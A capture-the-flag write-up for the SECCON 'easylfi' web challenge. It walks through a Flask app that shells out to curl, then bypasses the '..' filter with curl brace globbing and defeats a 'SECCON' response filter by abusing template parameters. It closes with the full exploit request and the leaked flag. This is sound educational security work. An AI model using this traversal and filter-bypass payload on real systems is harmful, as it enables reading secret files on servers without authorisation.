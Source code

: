 # easylfi

Description: Can you read my secret?

http://easylfi.seccon.games:3000

Download: https://dashboard.quals-score.seccon.jp/api/download?key=prod%2Feasylfi%2Feasylfi.tar.gz

---

## Tooling

To debug, test and finally solve the challenge I have used `docker`, `burp` and `curl` documentation.
Without testing the challenge locally, I wouldn't have been able to solve it.

---

## Application

The application is a simple web application written in `python3` using `flask` framework.
The only available endpoint was index, where the user could have `curl` files from the server and template them using query parameters surrounded by `{ }`. (e.g.: {test}=1 would replace all '{test}' in the file with '1'). The main function looks as follows:

```python
@app.route("/")
@app.route("/<path:filename>")
def index(filename: str = "index.html"):
    if ".." in filename or "%" in filename:
        return "Do not try path traversal :("

    try:
        proc = subprocess.run(
            ["curl", f"file://{os.getcwd()}/public/{filename}"],
            capture_output=True,
            timeout=1,
        )
    except subprocess.TimeoutExpired:
        return "Timeout"

    if proc.returncode != 0:
        return "Something wrong..."
    return template(proc.stdout.decode(), request.args)
```

As there is a call to `subprocess.run` we might suspect RCE, but it wasn't the case, the chall itself was even called `easylfi`, right?

### LFI - Local File Inclusion

is a vulnerability that allows an attacker to read files from the server. In this case, the attacker can read any file from the server, as long as it is in the `public` directory. The `curl` command is used to read the file, but the `filename` parameter is sanitized, so the attacker couldn't just use `../` to go up in the directory tree and read any file from the server. That was the **first** obstacle. 

The **second** obstacle was that there was a `after_reqest` decorator that looked as follows:

```python
@app.after_request
def waf(response: Response):
    if b"SECCON" in b"".join(response.response):
        return Response("Try harder")
    return response
```

So if the response contained the string `SECCON`, the response would be changed to `Try harder`. This was a problem, as the flag was in the `flag.txt` file, which was in format `SECCON{.*}`.

### Parameters

The only parameters that were acceptable for template replacement were determined by the following function:

```python
def validate(key: str) -> bool:
    # E.g. key == "{name}" -> True
    #      key == "name"   -> False
    if len(key) == 0:
        return False
    is_valid = True
    for i, c in enumerate(key):
        if i == 0:
            is_valid &= c == "{"
        elif i == len(key) - 1:
            is_valid &= c == "}"
        else:
            is_valid &= c != "{" and c != "}"
    return is_valid
```

So the parameters had to be surrounded by `{ }` and couldn't contain `{` or `}`. So there was no possibility to replace `SECCON` in any way (Or was it?), as it was not surrounded by `{ }`.

---

## Solution

### First step - Path Traversal check bypass

The first step was to make a path traversal. If we will look in to `curl`'s [man page](https://curl.se/docs/manpage.html), we can see that anything in the second argument *([options / URLs])* surrounded by curly braces, is treated as a list of possible options.

```example
"http://site.{one,two,three}.com"
```

Means that `curl` will make requests to `http://site.one.com`, `http://site.two.com` and `http://site.three.com` consecutively. So if we will use the following query:

```
{.}{.}/{.}{.}/flag.txt
```

it would have only one option (single dot) everywhere, and there will be our bypass to path traversal:

```python
if ".." in filename or "%" in filename:
    return "Do not try path traversal :("
```

It's always good to take a look into documentation while solving CTFs :)

### Second step - Bypass WAF

The second step was to bypass the WAF. The WAF was checking for the string `SECCON` in the response, so we had to replace it with something else. The only way to do that was to use the `template` function, which was replacing the parameters in the file. The only problem was that the parameters had to be surrounded by `{ }` and couldn't contain `{` or `}`. So we had to find a way to bypass that.

Again - curl feature came in handy. If we have more than one option:

```example
{a,b}/flag.txt
```

Subproccess will catch stdout from both `a/flag.txt` and `b/flag.txt` and will return both of them. That allowed me to combine the output of the flag.txt with *something* prefixing it.

```example
./flag.txt{\{,}
```

I have combined non existing file called `flag.txt{` and `flag.txt` by using `curl` cool feature
The first curl request would be sent to `flag.txt{` and `flag.txt`.
The output would be:

```
--_curl_--file:///app/public/../../flag.txt{
--_curl_--file:///app/public/../../flag.txt
SECCON{flag}
```

Which of course would have been blocked by the WAF.
However if we take a close look at `validate` function, we can see that we can actually use single '{' as a query parameter in request and the `validate` function would accept it. So we can use the following query:

```
?{=}{
```

Which will allow to have the rest of the output like this:

```
SECCON}{flag}
```

The last thing to do was to combine the output of the `flag.txt` with the `SECCON}` prefixing it. The following query parameter would do the trick:

```example
?{%0a%2D%2D%5Fcurl%5F%2D%2Dfile%3A%2F%2F%2Fapp%2Fpublic%2F%2E%2E%2F%2E%2E%2Fflag%2Etxt%0aSECCON}=a
```

It's practically the `curl` output from the previous step as a parameter **key**, but with the `SECCON}` at the end, so the template function would replace it with the `a` string and that would match the output of the second `curl` request.

#### Final exploiting request:

```http
GET /{.}{.}/{.}{.}/flag.txt{\{,}?{=}{&{%0a%2D%2D%5Fcurl%5F%2D%2Dfile%3A%2F%2F%2Fapp%2Fpublic%2F%2E%2E%2F%2E%2E%2Fflag%2Etxt%0aSECCON}=a HTTP/1.1
Host: easylfi.seccon.games:3000
Content-Length: 0
```

#### Response:

```http
HTTP/1.1 200 OK
Server: Werkzeug/2.2.2 Python/3.10.8
Date: Sun, 13 Nov 2022 19:41:31 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 89
Connection: close

--_curl_--file:///app/public/../../flag.txt}a{i_lik3_fe4ture_of_copy_aS_cur1_in_br0wser}
```
